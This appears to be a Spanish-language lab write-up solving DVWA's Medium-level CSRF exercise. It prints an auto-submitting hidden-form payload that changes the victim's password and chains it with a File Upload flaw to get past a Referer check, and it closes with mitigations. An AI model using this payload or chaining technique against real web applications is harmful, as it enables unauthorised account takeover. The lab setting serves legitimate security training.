

# Ejercicio 4: Cross Site Request Forgery (CSRF) - (Nivel: Medium)

En este módulo se explora cómo un atacante puede forzar a un usuario autenticado a ejecutar acciones no deseadas en una aplicación web, en este caso, cambiar su propia contraseña sin su consentimiento.

## 📑 Descripción del Escenario

En el nivel Medium, la aplicación intenta protegerse verificando el HTTP Referer para asegurarse de que la petición proviene del mismo dominio. Sin embargo, si el atacante logra alojar un archivo malicioso dentro del propio servidor vulnerable, la cabecera Referer coincidirá con el dominio permitido, saltándose así la validación.

## 🛠️ Herramientas Utilizadas

- DVWA (Desplegado en Docker).
- Módulo File Upload: Utilizado para subir el payload al servidor.
- Payload PHP/HTML: Un script diseñado para ejecutar la petición de cambio de contraseña automáticamente.

## 🚀 Ejecución del Ataque

Siguiendo la estrategia de Aftab Sama, el ataque se divide en dos fases: el alojamiento del exploit y la ejecución.

### 1. Preparación del Payload

Se crea un archivo (por ejemplo, csrf.php) que contiene un formulario oculto que se envía automáticamente al cargarse:

```html
<html>
  <body>
    <form action="http://localhost:8080/vulnerabilities/csrf/">
      <input type="hidden" name="password_new" value="hacked" />
      <input type="hidden" name="password_conf" value="hacked" />
      <input type="hidden" name="Change" value="Change" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 2. Subida y Ejecución

- Utilizamos la vulnerabilidad de File Upload (configurando momentáneamente el nivel en Low para permitir la subida) y subimos nuestro archivo csrf.php.
- Una vez subido, accedemos a la ruta del archivo en el servidor (ej. http://localhost:8080/hackable/uploads/csrf.php).
- Al cargar esta URL, el navegador envía la petición de cambio de contraseña. Como el archivo reside en localhost, el servidor acepta el Referer como válido.

## 📸 Evidencia de Explotación

Como se observa en la captura:

- El ataque se ha ejecutado con éxito.

  

La aplicación muestra el mensaje en rojo: "Password Changed.", confirmando que la contraseña del administrador ha sido modificada de forma remota sin interacción manual en el formulario original.

## ✅ Conclusión y Mitigación

La validación del Referer es una medida de seguridad débil ya que puede ser manipulada o eludida si existen otros fallos como File Upload. Para mitigar CSRF de forma efectiva se debe:

- Implementar Anti-CSRF Tokens: Tokens únicos, aleatorios y específicos para cada sesión que deben incluirse en cada petición sensible.
- SameSite Cookie Attribute: Configurar las cookies como SameSite=Strict para evitar que se envíen en peticiones de origen cruzado.

Recuerda: Este ejercicio se ha realizado en un entorno controlado con fines exclusivamente educativos.